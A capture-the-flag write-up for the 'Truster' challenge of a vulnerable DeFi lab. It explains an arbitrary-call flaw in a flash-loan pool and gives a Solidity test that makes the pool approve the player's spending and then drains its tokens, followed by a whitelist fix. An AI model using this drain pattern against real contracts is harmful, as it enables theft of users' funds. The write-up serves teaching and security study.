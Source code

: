 
## Challenge 3: Truster

### Vulnerability
The `TrusterLenderPool` flash loan function allows arbitrary external calls during the loan, which can be used to approve token spending.

### Exploit Code
```solidity
// In Truster.t.sol - test_truster() function
function test_truster() public checkSolvedByPlayer {
    // Create approval call data
    bytes memory approveCallData = abi.encodeCall(
        token.approve,
        (player, type(uint256).max)
    );
    
    // Flash loan with approval call
    pool.flashLoan(
        0,
        player,
        address(token),
        approveCallData
    );
    
    // Transfer all tokens to recovery
    token.transferFrom(address(pool), recovery, token.balanceOf(address(pool)));
}
```

### Why it works
1. Flash loan allows arbitrary `target.call(data)` during execution
2. We call `approve()` on the token contract to approve our player address
3. After the flash loan, we can transfer all pool tokens using the approval
4. The flash loan amount is 0, so no repayment needed

### Fix
```solidity
// Whitelist allowed targets or remove arbitrary external calls
mapping(address => bool) public allowedTargets;

function flashLoan(
    uint256 amount,
    address borrower,
    address target,
    bytes calldata data
) external nonReentrant returns (bool) {
    require(allowedTargets[target], "Target not allowed");
    // ... rest of function
}
```

---